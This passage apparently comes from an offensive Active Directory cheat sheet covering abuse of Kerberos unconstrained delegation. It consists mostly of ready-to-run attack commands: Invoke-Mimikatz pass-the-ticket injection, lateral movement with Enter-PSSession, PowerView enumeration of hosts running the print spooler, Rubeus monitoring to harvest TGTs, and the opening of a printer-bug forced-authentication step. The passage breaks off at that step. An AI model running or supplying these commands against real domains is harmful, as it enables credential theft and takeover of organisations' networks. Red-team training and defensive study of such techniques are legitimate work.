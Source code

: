     Invoke-Mimikatz -Command '"kerberos::ptt [Ticket-Name.kirbi]"'

##### Confirm if ticket has been stored

    Invoke-Mimikatz -Command '"kerberos::list"'

##### Open new session with injected ticket

    Invoke-Mimikatz -Command '"misc::cmd"'

Then proceed with lateral movement using WinRM for example

    Enter-PSSession -ComputerName DC01.security.local

## Forced Authentication

When a system has Unconstrained Delegation enabled, a potential attack vector is to force other users or systems to authenticate against the host which is configured for unconstrained delegation.

By doing so we can force the victim user / computer account to store a copy of their TGT into the compromised system.

### Printer Bug https://raw.githubusercontent.com/NotMedic/NetNTLMtoSilverTicket/master/Get-SpoolStatus.ps1

#### Enumerate for vulnerable servers

#### PowerView
##### Get all computers

    Get-DomainComputer -Properties DnsHostName,OperatingSystem | Where {$_.OperatingSystem -Notlike "*server*"} | Select DnsHostname | Out-File DomainComputers.txt -Encoding "ASCII"

##### Get all servers

    Get-DomainComputer -Properties DnsHostName,OperatingSystem | Where {$_.OperatingSystem -like "*server*"} | Select DnsHostname | Out-File DomainServers.txt -Encoding "ASCII"

    Get-SpoolStatus ForEach ($Server in Get-Content DomainServers.txt) {Get-SpoolStatus $Server}

#### Set Rubeus for ticket harvesting

    Rubeus.exe monitor /Interval:5 /nowrap
    Rubeus.exe monitor /Interval:5 /nowrap /targetuser:DC01

OR 

    Invoke-Rubeus -Command "monitor /Interval:5 /nowrap"
    Invoke-Rubeus -Command "monitor /Interval:5 /nowrap /targetuser:DC01"

#### Perform Forced Authentication

### 1) Invoke-SpoolSample

##### Load into memory
